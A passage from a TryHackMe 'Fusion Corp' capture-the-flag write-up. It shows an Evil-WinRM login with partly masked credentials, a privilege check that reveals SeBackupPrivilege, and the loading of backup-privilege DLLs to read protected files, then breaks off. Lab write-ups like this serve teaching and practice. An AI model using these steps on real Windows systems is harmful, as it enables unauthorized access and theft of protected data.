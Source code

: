 ## Shell as jmurphy
```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ evil-winrm -i fusion.corp -u jmurphy -p 'u8************bRY'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\jmurphy\Documents> 
```
The credentials are valid one and we have a shell as jmurphy.

## Reading second flag
```console
*Evil-WinRM* PS C:\Users\jmurphy\desktop> cat flag.txt
THM{b4aee2d***********2e047612e}
```


## Checking user's privilege
```console
*Evil-WinRM* PS C:\Users\jmurphy\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
Since we have SeBackupPrivileges, we can read any file from the system to create a backup.



## Reading final flag
I clone [this](https://github.com/giuliano108/SeBackupPrivilege) repo and upload two files and import them on poweshell.

![image](/assets/images/thm/fusioncorp/Pasted image 20210616174544.png)
```console
*Evil-WinRM* PS C:\temp> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\temp> import-module .\SeBackupPrivilegeUtils.dll
```
